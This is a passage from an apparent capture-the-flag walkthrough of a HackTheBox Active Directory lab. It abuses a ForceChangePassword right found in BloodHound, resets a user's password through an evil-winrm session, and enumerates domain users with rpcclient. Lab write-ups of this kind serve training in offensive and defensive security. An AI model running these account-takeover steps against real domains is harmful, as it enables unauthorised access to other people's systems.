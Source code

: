 Now, we open a PowerShell session again using the `Michael` account with the new password.  


Go back to `BloodHound` to check the outbound object control for `Michael`.

```
<img src="Imgs/image3.png" alt="error loading image">

Since Michael has the `ForceChangePassword` privilege on Benjamin, we can change Benjamin's password without knowing the current one.

```powershell
Set-ADAccountPassword -Identity Benjamin -NewPassword (ConvertTo-SecureString "HelloBenjamin" -AsPlainText -Force) -Reset
```

```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.42 -u Michael -p 'HelloMichael'

                                        
Evil-WinRM shell v3.7

                                        
*Evil-WinRM* PS C:\Users\michael\Documents> 
*Evil-WinRM* PS C:\Users\michael\Documents> Set-ADAccountPassword -Identity Benjamin -NewPassword (ConvertTo-SecureString "HelloBenjamin" -AsPlainText -Force) -Reset
*Evil-WinRM* PS C:\Users\michael\Documents> exit

```

After changing the password, I tried to log in to the `Benjamin` account, but `evil-winrm` did not work for Benjamin.  

Let's try using `rpcclient` instead.


```bash
┌──(kali㉿kali)-[~]
└─$ rpcclient -U "administrator.htb\Benjamin%HelloBenjamin" 10.10.11.42

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[olivia] rid:[0x454]
user:[michael] rid:[0x455]
user:[benjamin] rid:[0x456]
user:[emily] rid:[0x458]
user:[ethan] rid:[0x459]
user:[alexander] rid:[0xe11]
user:[emma] rid:[0xe12]
rpcclient $> 
rpcclient: missing argument
rpcclient $> exit
```
